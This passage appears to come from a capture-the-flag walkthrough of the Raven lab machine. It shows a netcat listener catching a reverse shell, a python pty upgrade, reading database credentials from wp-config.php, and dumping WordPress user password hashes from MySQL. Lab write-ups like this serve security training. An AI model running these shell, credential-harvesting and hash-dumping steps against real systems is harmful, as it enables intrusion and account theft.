 **Reverse Shell Established:**

```shellscript
nc -lnvp 4444
# Connection received on 192.168.1.13 38415
# Shell as www-data user
```


<img width="1195" height="224" alt="image" src="https://github.com/user-attachments/assets/d34a14ca-530f-4bbe-bbb5-0ba473dc5e95" />



## Post-Exploitation Enumeration

### Upgrading Shell

```shellscript
python -c "import pty;pty.spawn('/bin/bash')"
```

### Flag 2 Discovery

```shellscript
www-data@Raven:/var/www$ cat flag2.txt
flag2{6a8ed560f0b5358ecf844108048eb337}
```

### WordPress Database Access

Found database credentials in `wp-config.php`:

```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
```

### Database Enumeration

```shellscript
mysql -u root -pR@v3nSecurity
```

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+

mysql> use wordpress;
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad. | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
```